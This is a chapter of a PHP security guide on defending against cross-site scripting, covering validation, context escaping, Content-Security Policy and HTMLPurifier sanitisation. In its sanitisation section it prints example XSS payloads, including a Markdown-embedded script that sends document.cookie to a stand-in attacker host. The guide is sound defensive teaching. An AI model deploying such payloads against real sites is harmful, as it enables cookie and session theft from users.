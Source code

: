 Defending Against Cross-Site Scripting Attacks
==============================================

Defending against XSS is quite possible but it needs to be applied consistently while being intolerant of exceptions and shortcuts, preferably early in the web application's development when the application's workflow is fresh in everyone's mind. Late implementation of defenses can be a costly affair.

Input Validation
----------------

Input Validation is any web application's first line of defense. That said, Input Validation is limited to knowing what the immediate usage of an untrusted input is and cannot predict where that input will finally be used when included in output. Practically all free text falls into this category since we always need to allow for valid uses of quotes, angular brackets and other characters.

Therefore, validation works best by preventing XSS attacks on data which has inherent value limits. An integer, for example, should never contain HTML special characters. An option, such as a country name, should match a list of allowed countries which likewise will prevent XSS payloads from being injected.

Input Validation can also check data with clear syntax constraints. For example, a valid URL should start with http:// or https:// but not the far more dangerous javascript: or data: schemes. In fact, all URLs derived from untrusted input must be validated for this very reason. Escaping a javascript: or data: URI has the same effect as escaping a valid URL, i.e. nothing whatsoever.

While Input Validation won't block all XSS payloads, it can help block the most obvious. We cover Input Validation in greater detail in Chapter 2.

Escaping (also Encoding)
------------------------

Escaping data on output is a method of ensuring that the data cannot be misinterpreted by the currently running parser or interpreter. The obvious examples are the less-than and greater-than sign that denote element tags in HTML. If we allowed these to be inserted by untrusted input as-is, it would allow an attacker to introduce new tags that the browser would render. As a result, we normally escape these using the &gt; and $lt; HTML named entities.

As the replacement of such special characters suggests, the intent is to preserve the meaning of the data being escaped. Escaping simply replaces characters with special meaning to the interpreter with an alternative which is usually based on a hexadecimal representation of the character or a more readable representation, such as HTML named entities, where it is safe to do so.

As my earlier diversion into explaining Context mentioned, the method of escaping varies depending on which Content data is being injected into. HTML escaping is different from Javascript escaping which is also different from URL escaping. Applying the wrong escaping strategy to a Context can result in an escaping failure, opening a hole in a web applications defenses which an attacker may be able to take advantage of.

To facilitate Context-specific escaping, it's recommended to use a class designed with this purpose in mind. PHP does not supply all the necessary escaping functionality out of the box and some of what it does offer is not as safe as popularly believed. You can find an Escaper class which I designed for the Zend Framework, which offers a more approachable solution, here.

Let's examine the escaping rules applicable to the most common Contexts: HTML Body, HTML Attribute, Javascript, URL and CSS.

Never Inject Data Except In Allowed Locations
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Before presenting escaping strategies, it's essential to ensure that your web application's templates do not misplace data. This rule refers to injecting data in sensitive areas of HTML which offer an attacker the opportunity to influence markup parsing and which do not ordinarily require escaping when used by a programmer. Consider the following examples where [...] is a data injection:

::

     <script>...</script>
     
     <!--...-->
     
     <div ...="test"/>
     
     <... href="http://www.example.com"/>
     
     <style>...</style>

Each of the above locations are dangerous. Allowing data within script tags, outside of literal strings and numbers, would let an attack inject Javascript code. Data injected into HTML comments might be used to trigger Internet Explorer conditionals and other unanticipated results. The next two are more obvious as we would never want an attacker to be able to influence tag or attribute names - that's what we're trying to prevent! Finally, as with scripts, we can't allow attackers to inject directly into CSS as they may be able to perform UI Redress attacks and Javascript scripting using the Internet Explorer supported expression() function.

Always HTML Escape Before Injecting Data Into The HTML Body Context
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The HTML Body Context refers to textual content which is enclosed in tags, for example text included between <body>, <div>, or any other pairing of tags used to contain text. Data injected into this content must be HTML escaped.

HTML Escaping is well known in PHP since it's implemented by the htmlspecialchars() function.

Always HTML Attribute Escape Before Injecting Data Into The HTML Attribute Context
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The HTML Attribute Context refers to all values assigned to element attrbutes with the exception of attributes which are interpreted by the browser as CDATA. This exception is a little tricky but largely refers to non-XML HTML standards where Javascript can be included in event attributes unescaped. For all other attributes, however, you have the following two choices:

1. If the attribute value is quoted, you MAY use HTML Escaping; but
2. If the attribute is unquoted, you MUST use HTML Attribute Escaping.

The second option also applies where attribute quoting style may be in doubt. For example, it is perfectly valid in HTML5 to use unquoted attribute values and examples in the wild do exist. Ere on the side of caution where there is any doubt.

Always Javascript Escape Before Injecting Data Into Javascript Data Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Javascript data values are basically strings. Since you can't escape numbers, there is a sub-rule you can apply:

Always Validate Numbers...

Content-Security Policy
-----------------------

The root element in all our discussions about Cross-Site Scripting has been that the browser unquestionably executes all the Javascript it receives from the server whether it be inline or externally sourced. On receipt of a HTML document, the browser has no means of knowing which of the resources it contains are innocent and which are malicious. What if we could change that?
 
The Content-Security Policy (CSP) is a HTTP header which communicates a whitelist of trusted resource sources that the browser can trust. Any source not included in the whitelist can now be ignored by the browser since it's untrusted. Consider the following:

::
 
    X-Content-Security-Policy: script-src 'self'
 
This CSP header tells the browser to only trust Javascript source URLs pointing to the current domain. The browser will now grab scripts from this source but completely ignore all others. This means that http://attacker.com/naughty.js is not downloaded if injected by an attacker. It also means that all inline scripts, i.e. <script> tags, javascript: URIs or event attribute content are all ignored too since they are not in the whitelist.
 
If we need to use Javascript from another source besides 'self', we can extend the whitelist to include it. For example, let's include jQuery's CDN address.

::

    X-Content-Security-Policy: script-src 'self' http://code.jquery.com
 
You can add other resource directives, e.g. style-src for CSS, by dividing each resource directive and its whitelisting with a semi-colon.
 
::

    X-Content-Security-Policy: script-src 'self' http://code.jquery.com; style-src 'self'
 
The format of the header value is very simple. The value is constructed with a resource directive "script-src" followed by a space delimited list of sources to apply as a whitelist. The source can be a quoted keyword such as 'self' or a URL. The URL value is matched based on the information given. Information omitted in a URL can be freely altered in the HTML document. Therefore http://code.jquery.com prevents loading scripts from http://jquery.com or http://domainx.jquery.com because we were specific as to which subdomain to accept. If we wanted to allow all subdomains we could have specified just http://jquery.com. The same thinking applies to paths, ports, URL scheme, etc.
 
The nature of the CSP's whitelisting is simple. If you create a whitelist of a particular type of resource, anything not on that whitelist is ignored. If you do not define a whitelist for a resource type, then the browser's default behaviour kicks for that resource type.
 
Here's a list of the resource directives supported:
 
connect-src: Limits the sources to which you can connect using XMLHttpRequest, WebSockets, etc.
font-src: Limits the sources for web fonts.
frame-src: Limits the source URLs that can be embedded on a page as frames.
img-src: Limits the sources for images.
media-src: Limits the sources for video and audio.
object-src: Limits the sources for Flash and other plugins.
script-src: Limits the sources for script files.
style-src: Limits the sources for CSS files.
 
For maintaining secure defaults, there is also the special "default-src" directive that can be used to create a default whitelist for all of the above. For example:

::

    X-Content-Security-Policy: default-src 'self'; script-src 'self' http://code.jquery.com
 
The above will limit the source for all resources to the current domain but add an exception for script-src to allow the jQuery CDN. This instantly shuts down all avenues for untrusted injected resources and allows is to carefully open up the gates to only those sources we want the browser to trust.
 
Besides URLs, the allowed sources can use the following keywords which must be encased with single quotes:
 
'none'
'self'
'unsafe-inline'
'unsafe-eval'
 
You'll notice the usage of the term "unsafe". The best way of applying the CSP is to not duplicate an attacker's practices. Attackers want to inject inline Javascript and other resources. If we avoid such inline practices, our web applications can tell browsers to ignore all such inlined resources without exception. We can do this using external script files and Javascript's addEventListener() function instead of event attributes. Of course, what's a rule without a few useful exceptions, right? Seriously, eliminate any exceptions. Setting 'unsafe-inline' as a whitelisting source just goes against the whole point of using a CSP.
 
The 'none' keyword means just that. If set as a resource source it just tells the browser to ignore all resources of that type. Your mileage may vary but I'd suggest doing something like this so your CSP whitelist is always restricted to what it allows:

::

    X-Content-Security-Policy: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'
 
Just one final quirk to be aware of. Since the CSP is an emerging solution not yet out of draft, you'll need to dumplicate the X-Content-Security-Policy header to ensure it's also picked up by WebKit browsers like Safari and Chrome. I know, I know, that's WebKit for you.

::

    X-Content-Security-Policy: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'
    X-WebKit-CSP: default-src 'none'; script-src 'self' http://code.jquery.com; style-src 'self'

Browser Detection
-----------------

HTML Sanitisation
-----------------

At some point, a web application will encounter a need to include externally determined HTML markup directly into a web page without escaping it. Obvious examples can include forum posts, blog comments, editing forms, and entries from an RSS or Atom feed. If we were to escape the resulting HTML markup from those sources, they would never render correctly so we instead need to carefully filter it to make sure that any and all dangerous markup is neutralised.

You'll note that I used the phrase "externally determined" as opposed to externally generated. In place of accepting HTML markup, many web applications will allow users to instead use an alternative such as BBCode, Markdown, or Textile. A common fallacy in PHP is that these markup languages have a security function in preventing XSS. That is complete nonsense. The purpose of these languages is to allow users write formatted text more easily without dealing with HTML. Not all users are programmers and HTML is not exactly consistent or easy given its SGML roots. Writing long selections of formatted text in HTML is painful.

The act of generating HTML from such inputs (unless we received HTML to start with!) occurs on the server. That implies a trustworthy operation which is a common mistake to make. The HTML that results from such generators was still "determined" by an untrusted input. We can't assume it's safe. This is simply more obvious with a blog feed since its entries are already valid HTML.

Let's take the following BBCode snippet:

    [url=javascript:alert('I can haz Cookie?\n'+document.cookie)]Free Bitcoins Here![/url]

BBCode does limit the allowed HTML by design but it doesn't mandate, for example, using HTTP URLs and most generators won't notice this creeping through.

As another example, take the following selection of Markdown:

    I am a Markdown paragraph.<script>document.write('<iframe src="http://attacker.com?cookie=' + document.cookie.escape() + '" height=0 width=0 />');</script>

    There's no need to panic. I swear I am just plain text!

Markdown is a popular alternative to writing HTML but it also allows authors to mix HTML into Markdown. It's a perfectly valid Markdown feature and a Markdown renderer won't care whether there is an XSS payload included.

After driving home this point, the course of action needed is to HTML sanitise whatever we are going to include unescaped in web application output after all generation and other operations have been completed. No exceptions. It's untrusted input until we've sanitised it outselves.

HTML Sanitisation is a laborious process of parsing the input HTML and applying a whitelist of allowed elements, attributes and other values. It's not for the faint of heart, extremely easy to get wrong, and PHP suffers from a long line of insecure libraries which claim to do it properly. Do use a well established and reputable solution instead of writing one yourself.

The only library in PHP known to offer safe HTML Sanitisation is HTMLPurifier. It's actively maintained, heavily peer reviewed and I strongly recommend it. Using HTMLPurifier is relatively simple once you have some idea of the HTML markup to allow:

.. code-block:: php

    // Basic setup without a cache
    $config = HTMLPurifier_Config::createDefault();
    $config->set('Core', 'Encoding', 'UTF-8');
    $config->set('HTML', 'Doctype', 'HTML 4.01 Transitional');
    // Create the whitelist
    $config->set('HTML.Allowed', 'p,b,a[href],i'); // basic formatting and links
    $sanitiser = new HTMLPurifier($config);
    $output = $sanitiser->purify($untrustedHtml);

Do not use another HTML Sanitiser library unless you are absolutely certain about what you're doing.

External Application Defenses
-----------------------------

TBD